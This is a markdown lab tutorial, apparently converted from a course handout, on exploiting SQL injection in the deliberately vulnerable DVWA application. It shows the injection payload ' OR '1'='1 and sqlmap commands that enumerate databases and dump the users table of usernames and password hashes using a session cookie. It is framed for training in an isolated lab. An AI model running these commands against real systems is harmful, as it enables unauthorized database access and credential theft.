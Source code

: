 # DVWA SQL Injection Tutorial

**Source:** DVWA_SQLi_Tutorial.docx 【7†source】

> ⚠️ **Disclaimer:** For educational purposes only. Perform exercises only in a controlled lab environment.

## Overview

This lab demonstrates SQL Injection exploitation using **Damn Vulnerable Web Application (DVWA)** and **sqlmap**. Follow the steps below in a safe, isolated environment (e.g., a VM or isolated lab network).

---

## Prerequisites

- DVWA running (e.g., on a VM like Metasploitable or via Docker).
- sqlmap installed.
- A browser to access DVWA (e.g., `http://<DVWA-IP>/dvwa`).

---

## Steps

### Step 1: Verify Connectivity
Ping the Metasploitable (or target) machine to confirm network connectivity.

```bash
ping <Metasploitable-IP>
```

### Step 2: Login to DVWA
Open DVWA in your browser and login using the credentials:

- **Username:** `admin`
- **Password:** `password`

### Step 3: Access DVWA Dashboard
After successful login you should see the DVWA dashboard.

### Step 4: Set Security Level
Navigate to **DVWA Security** and set the security level to **Low**.

### Step 5: Select SQL Injection Module
From the left menu, click **SQL Injection** to open the vulnerable page/module.

### Step 6: Test Injection
In the **User ID** field, enter the following to test for SQL injection vulnerability:

```
' OR '1'='1
```

If the page returns user data, the input is vulnerable to SQL injection.

### Step 7: Injection Results
DVWA will display user data when the test injection is successful, confirming the vulnerability.

### Step 8: Inspect Cookies
Open developer tools:
- Right-click → **Inspect** → **Storage** → **Cookies**.
- Copy `PHPSESSID` value and note `security=low` cookie.

You will use the session cookie with sqlmap to maintain the authenticated session.

### Step 9: Run sqlmap Enumeration
Use sqlmap to enumerate the target. Replace `<IPAddress>` and `<SessionID>` appropriately.

```bash
sqlmap -u "http://<IPAddress>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit"   --cookie="PHPSESSID=<SessionID>; security=low"   --batch --dbs
```

Notes:
- `--batch` runs non-interactively using default answers.
- `--dbs` lists the databases found.

### Step 10: List Tables
To enumerate tables in the `dvwa` database:

```bash
sqlmap -u "http://<IPAddress>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit"   --cookie="PHPSESSID=<SessionID>; security=low"   -D dvwa --tables --batch
```

### Step 11: Dump Users Table
To dump the `users` table:

```bash
sqlmap -u "http://<IPAddress>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit"   --cookie="PHPSESSID=<SessionID>; security=low"   -D dvwa -T users --dump --batch
```

### Step 12: Extracted Data
sqlmap will retrieve usernames, password hashes, and other data from the `users` table if the injection is exploitable.

---

## Notes & Safety
- Do **NOT** expose DVWA to the public internet.
- Only run these tests in controlled environments where you have permission.
- The session cookie (`PHPSESSID`) is sensitive; keep it private during testing.

---

## (Optional) Example Commands Recap

- Enumerate databases:

```bash
sqlmap -u "http://<IPAddress>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit"   --cookie="PHPSESSID=<SessionID>; security=low"   --batch --dbs
```

- List tables in `dvwa`:

```bash
sqlmap -u "http://<IPAddress>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit"   --cookie="PHPSESSID=<SessionID>; security=low"   -D dvwa --tables --batch
```

- Dump `users` table:

```bash
sqlmap -u "http://<IPAddress>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit"   --cookie="PHPSESSID=<SessionID>; security=low"   -D dvwa -T users --dump --batch
```

---

## Acknowledgements
Converted from the original lab handout: `DVWA_SQLi_Tutorial.docx`. See the original for any additional context. 【7†source】
